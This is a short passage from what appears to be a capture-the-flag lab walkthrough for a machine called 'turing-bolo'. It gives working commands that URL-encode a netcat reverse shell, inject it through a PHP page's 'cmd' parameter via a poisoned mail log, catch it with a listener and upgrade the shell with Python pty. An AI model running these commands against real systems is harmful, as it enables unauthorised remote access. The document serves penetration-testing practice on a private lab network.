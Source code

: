 ### Getting reverse shell

``` bash
hURL -U 'nc -nv 192.168.56.110 4444 -e /bin/bash'
```

``` bash
cmd='nc%20-nv%20192.168.56.110%204444%20-e%20%2Fbin%2Fbash'
```

``` bash
curl -v --silent "http://192.168.56.102/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=$cmd" 2>&1 | sed -ne '/hades/,$ p' | sed '/hades@/Q' | sed 's/.*hades //'
```

``` bash
sudo nc -nvlp 4444
```

![](images/8.png)

## Privilege escalation

Upgrade shell

``` bash
/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```
